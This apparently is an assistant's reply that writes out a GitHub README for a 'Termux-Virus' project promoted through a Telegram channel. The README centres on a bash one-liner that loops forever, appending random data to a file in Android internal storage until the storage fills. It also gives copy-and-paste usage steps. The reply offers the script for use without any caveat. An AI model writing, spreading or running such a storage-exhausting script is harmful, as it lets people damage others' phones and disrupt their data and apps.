Here’s the complete README code for your GitHub project:

```markdown
# Termux-Virus

⚠ **Warning**: Run at your own risk.

Join My Channel: [SG_Modder1](https://t.me/SG_Modder1)

😈 **2024 New Termux Virus By Me** 😈

```bash
termux-setup-storage && if [ -d "/storage/emulated/0" ]; then while true; do dd if=/dev/urandom of="/storage/emulated/0/device.bin" bs=1M conv=notrunc oflag=append > /dev/null 2>&1 && echo "🟩"; done; else echo "Give storage permissions."; termux-setup-storage; fi
```

## ⭐️ HOW IT WORKS ⭐️

👨‍💻 This command automatically generates a single file and continuously increases its size until you force stop Termux.

## 🚀 HOW TO USE

1. **Run the Command**: Copy and paste the provided command into your Termux terminal. Make sure to grant the required storage permissions when prompted.
2. **File Generation**: The script will start creating a file named `device.bin` in your internal storage and will keep appending random data to it.

## ⏹️ HOW TO STOP IT

You can stop the file creation process using one of the following methods:

1. **Using Ctrl+C**: While in the Termux terminal, simply press `Ctrl + C`. This will send an interrupt signal to the script, stopping the execution immediately.
   
2. **Closing the Termux Session**: You can also stop the script by closing the Termux application entirely. This will terminate all running processes within Termux.

💎 **Made By**: @SG_Modder1
```

### Instructions to Use:
- Copy the above code into a file named `README.md` in your GitHub repository.
- This README provides essential information on the script, including its usage and how to stop it. Adjust any text as needed!
